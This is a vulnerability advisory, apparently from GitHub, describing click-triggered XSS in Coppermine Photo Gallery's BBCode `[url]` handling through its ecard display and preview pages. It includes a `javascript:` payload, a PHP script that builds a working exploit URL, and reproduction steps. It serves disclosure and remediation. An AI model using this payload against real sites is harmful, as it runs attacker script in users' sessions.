




# Improper BBCode URL handling allows click-triggered XSS via ecard preview and display flows

### Summary

The BBCode URL parser does not restrict dangerous URI schemes. As a result, attacker-controlled input can be rendered as `javascript:` links, leading to click-triggered XSS in ecard preview/display flows reachable by anonymous and authenticated users.

### Details

In `include/functions.inc.php` (around lines 684, 724, 743, and 791), `bb_decode()` converts `[url]` / `[url=...]` BBCode into `<a href=...>` without enforcing a safe scheme allowlist.

This sink is reachable from:

- `displayecard.php` (around lines 32 and 105)
- `ecard.php` (around lines 278 and 300)

Because dangerous schemes are accepted, attacker input can be rendered into a live anchor such as:
`href="javascript://a%0aalert(document.domain)"`

This is click-triggered XSS: the script executes when the victim clicks the rendered link.

### PoC

Verified on Coppermine Photo Gallery 1.6.28.

Target picture used during testing:
`http://localhost/displayimage.php?album=lastup&cat=0&pid=3#top_display_media`

Payload:
`[url=javascript://a%0aalert(document.domain)]click[/url]`

The `displayecard.php` endpoint expects a serialized PHP array, then `base64_encode()`, then `urlencode()`. The following script generates a working URL:

```
<?php
// XSS payload placed in the ecard message field.
// You can change the JavaScript proof string if needed.
$payload = '[url=javascript://a%0aalert(/XSS/)]click[/url]';

$data = array(
    // Sender name. Can be any test value.
    'sn'  => 'attacker',
    // Sender email. Can be any test value with valid email format.
    'se'  => 'attacker@example.com',
    // Direct URL to the target picture file.
    // Change this to match your uploaded image file URL.
    'p'   => 'http://localhost/albums/userpics/10001/6/A.jpg',
    // Greeting text. Can be any test value.
    'g'   => 'hi',
    // Ecard message. This is where the BBCode payload is injected.
    'm'   => $payload,
    // Target picture ID.
    // Change this to the pid of your uploaded image.
    'pid' => 3,
    // Target picture title.
    // Change this to the title shown on the image page if needed.
    'pt'  => 'A',
    // Target picture caption/description.
    // Leave empty if the picture has no caption.
    'pc'  => '',
);

// displayecard.php expects serialized PHP data, then base64, then URL encoding.
$encoded = urlencode(base64_encode(serialize($data)));

// Change the host/path if Coppermine is not running at http://localhost/.
$url = 'http://localhost/displayecard.php?data=' . $encoded;

echo $url . PHP_EOL;
```


Running this script produces a URL similar to:
`http://localhost/displayecard.php?data=...`

Steps to reproduce:

1. Run the PHP script above to generate the final `displayecard.php?data=...` URL.

   

2. Open the generated URL. The page renders a hyperlink labeled `click`.

   

3. Inspecting the link shows an `href` containing the attacker-controlled `javascript:` URI.

   

4. Clicking the link executes JavaScript in the application origin.

   

A second reachable path is the authenticated ecard preview flow:

1. Log in as a normal user.
2. Open:
   `http://localhost/ecard.php?album=lastup&pid=3`
3. Put the payload into the message field:
   `[url=javascript://a%0aalert(document.domain)]click[/url]`
4. Click `Preview`.
5. The preview renders the same clickable malicious link.

### Impact

Anonymous users and normal users can inject malicious `javascript:` links into ecard display/preview pages. If another user clicks the rendered link, attacker-controlled JavaScript executes in the context of the application.